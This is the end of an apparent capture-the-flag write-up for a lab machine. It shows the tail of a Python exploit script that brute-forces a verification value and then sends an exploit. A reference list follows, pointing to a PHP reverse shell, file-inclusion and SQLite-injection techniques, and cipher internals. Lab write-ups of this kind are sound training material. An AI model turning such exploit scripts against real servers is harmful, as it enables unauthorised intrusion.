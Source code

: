 ```python
        success_not = verify(vk, oridt, orisig)
        if success_not:
            FLAG = 1
            logger.critical("Rand is: " + str(rand))
            return rand
    if FLAG == 0:
        print("You may reset the machine, rand is large than 500.")
        sys.exit(0)


def main():
    printusage()
    check_server()
    orid = get_dbg_info()
    randv = try_bf(orid)
    send_exploit(randv)


if __name__ == '__main__':
    main()
    
```

(END)

# Referrence

All scripts used and written by myself are logged here: [My Github Repo](https://github.com/kmahyyg/htbscripts). All related scripts is named beginning with `krypto`.

1. https://github.com/DieFunction/MySQL-Auth-Server
2. https://sourcegraph.com/github.com/php/php-src@02cdef555dee090c55076f1419c83707f8928558/-/blob/ext/pdo/pdo.c#L175
3. https://sourcegraph.com/github.com/php/php-src@02cdef555dee090c55076f1419c83707f8928558/-/blob/ext/pdo_mysql/mysql_driver.c#L560
4. https://www.php.net/manual/en/ref.pdo-mysql.connection.php
5. https://www.geeksforgeeks.org/computer-network-rc4-encryption-algorithm/
6. https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/
7. https://gchq.github.io/CyberChef/
8. http://pentestmonkey.net/tools/web-shells/php-reverse-shell
9. http://atta.cked.me/home/sqlite3injectioncheatsheet
10. http://80x86.io/post/blowfish-cipher
11. https://github.com/DidierStevens/DidierStevensSuite/blob/master/xor-kpa.py
12. https://gist.github.com/amtal/d482a2f8913bc6e2c2e0
13. https://github.com/vim/vim/blob/master/src/crypt.c
14. http://nlitsme.github.io/posts/vim-encryption/
15. https://dgl.cx/2014/10/vim-blowfish
16. https://stackoverflow.com/questions/8928240/convert-base-2-binary-number-string-to-int
17. https://math.stackexchange.com/questions/1231826/how-to-convert-pi-to-base-16
18. https://pycryptodome.readthedocs.io/en/latest/src/cipher/blowfish.html
19. https://docs.python.org/3/library/functions.html#eval
20. https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html
21. https://www.floyd.ch/?p=584
22. http://lucumr.pocoo.org/2011/2/1/exec-in-python/

